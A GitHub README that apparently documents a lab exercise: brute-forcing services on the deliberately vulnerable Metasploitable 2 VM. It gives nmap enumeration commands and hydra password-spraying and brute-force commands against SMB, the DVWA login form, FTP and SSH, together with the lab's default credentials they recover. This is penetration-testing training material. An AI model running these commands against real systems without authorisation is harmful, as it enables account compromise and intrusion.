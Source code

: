 # metasploitable2-brute-forces

brute forcing a few of the metasploitable 2 services using `hydra` and `nmap`

# nmap scan

first we scan the server ip to see wich services are listening, you can see the log in `nmap_scan.txt`. <br>
here are the services we want to brute force:

```
PORT     STATE SERVICE      VERSION
21/tcp   open  ftp          vsftpd 2.3.4
22/tcp   open  ssh          OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
80/tcp   open  http         Apache httpd 2.2.8 ((Ubuntu) DAV/2)
139/tcp  open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

# nmap smb enumeration

Here we use a combination of all `smb-enum*` NSE scripts to enumerate all the information we can about the smb service

```
nmap -v -p 139,445 --script smb-enum* -oN Desktop/nmap_smb_enum.txt 192.168.100.10
```

Doing that we get a list of smb users:

```
Host script results:
| smb-enum-users:
|   METASPLOITABLE\backup (RID: 1068)
|     Full name:   backup
|     Flags:       Account disabled, Normal user account
|   METASPLOITABLE\bin (RID: 1004)
|     Full name:   bin
|     Flags:       Account disabled, Normal user account
...
```

We use cat, grep, awk and cut to format the scan into a login wordlist

```
cat nmap_smb_enum.txt | grep 'RID' | awk -F' ' '{print $2}' | cut -d'\' -f2 > smb_users.txt
```

Getting the following wordlist:

```
backup
bin
bind
daemon
dhcp
distccd
ftp
games
gnats
irc
...
```

# smb password spraying

Using the `smb_user.txt` wordlist we spray for the passwords `admin` and `password`

```
hydra -v -e sr -I -s 139,445 -L Desktop/smb_users.txt -p admin -o Desktop/hydra_smb_brute.txt 192.168.100.10 smb
hydra -v -e sr -I -s 139,445 -L Desktop/smb_users.txt -p password -o Desktop/hydra_smb_brute.txt 192.168.100.10 smb
```

But ultimately getting the login credentials from the repeated login and password flag `-e sr`

```
[139][smb] host: 192.168.100.10   login: msfadmin   password: msfadmin
[139][smb] host: 192.168.100.10   login: user   password: user
```

# dvwa http brute force

here we use hydra's `http-post-form` module to get the `admin` user credentials

```
hydra -V -o Desktop/hydra_log.txt -l admin -P /usr/share/wordlists/rockyou.txt -u -e sr -s 80 -m /dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed -I 192.168.100.10 http-post-form
```

we use the `-m` module arguments to pass the request directory, format and fail response
`"<dir>:<request>:<fail>"`

```
"/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

the password is found in the wordlist:

```
[80][http-post-form] host: 192.168.100.10   login: admin   password: password
```

# ftp brute force

for the ftp service we try the `rockyou.txt` wordlist

```
hydra -l msfadmin -p /usr/share/wordlists/rockyou.txt -e sr -o Desktop/hydra_ftp_log.txt -I ftp://192.168.100.10
```

but again get the credentials from the repeated password flag

```
[21][ftp] host: 192.168.100.10   login: msfadmin   password: msfadmin
```

# ssh brute force

for the ssh we try the already known user `msfadmin` with the `rockyou.txt` wordlist

```
hydra -V -o Desktop/hydra_ssh.txt -e sr -l msfadmin -P /usr/share/wordlists/rockyou.txt 192.168.100.10 ssh
```

and end up getting the credentials with the repeated password flag

```
[22][ssh] host: 192.168.100.10   login: msfadmin   password: msfadmin
```

# some hydra flags used

-   `-v` -> verbose flag
-   `-e sr` -> test for equal login and password and reversed password
-   `-s` -> selecting ports
-   `-L` -> selecting user list
-   `-l` -> selecting user
-   `-P` -> selecting password list
-   `-p` -> selecting password
-   `192.168.100.10 <module>` -> selecting target and module
-   `-I` -> do not restore hydra session
-   `-o` -> output log file

